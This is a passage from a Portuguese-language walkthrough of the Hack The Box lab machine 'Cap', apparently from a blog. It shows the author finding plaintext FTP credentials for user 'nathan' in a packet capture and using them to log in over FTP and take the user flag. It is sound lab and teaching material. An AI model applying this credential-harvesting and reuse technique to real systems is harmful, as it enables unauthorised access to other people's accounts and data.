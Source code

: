![HTB Cap - Security Snapshot "zero"](https://i.imgur.com/WWyXVKE.png){: .align-center}

Analizando o conteúdo utilizando o Wireshark, iniciei por verificar as estatísticas das conversas, conforme abaixo, onde temos 3 streams HTTP (80/TCP) e um para FTP (21/TCP)

![HTB Cap - PCAP Statistics](https://i.imgur.com/XR922yh.png){: .align-center}

Passando por cada um dos TCP streams, o mais interessante foi o último, em que durante a comunicação FTP podemos ver as credenciais informadas pelo usuário **nathan** que baixou o arquivo `notes.txt`, que poderia conter algum tipo de informação relevante para a resoluçào da máquina.

> nathan:Buck3tH4TF0RM3!

![HTB Cap - PCAP FTP Stream](https://i.imgur.com/DQHsTTw.png){: .align-center}

## Acesso inicial e User flag

Utilizando as credenciais observadas, consegui conectar via FTP e surpreendentemente o diretório raiz da conexão era o home directory de `nathan`, onde pude baixar o arquivo `user.txt` e ler a flag.

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:zurc): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 11 16:25 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (358.0729 kB/s)
ftp> exit
221 Goodbye.

$ cat user.txt
<redacted>
```
